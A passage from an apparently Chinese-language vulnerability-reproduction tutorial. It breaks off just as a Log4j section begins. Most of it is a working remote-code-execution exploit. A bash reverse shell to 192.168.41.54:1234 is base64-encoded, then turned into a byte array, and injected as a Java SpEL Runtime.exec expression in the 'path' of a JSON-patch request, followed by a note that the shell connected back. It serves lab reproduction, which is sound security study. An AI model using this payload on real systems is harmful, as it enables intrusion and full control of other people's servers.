3. 开启监听

   

4. 抓包，修改数据包

```
bash -i >& /dev/tcp/192.168.41.54/1234 0>&1
=>
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQxLjU0LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}
=>
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,85,48,76,122,69,121,77,122,81,103,77,68,52,109,77,81,61,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125

[
	{"op":"replace",
	"path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,85,48,76,122,69,121,77,122,81,103,77,68,52,109,77,81,61,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125}))/lastname",
	"value":"vulhub"
	}
]
```


5. 成功反弹shell


### 10. Log4j

#### (1). 原理

* Log4j2是基于java的日志记录工具，支持JNDI协议

#### (2). 漏洞复现


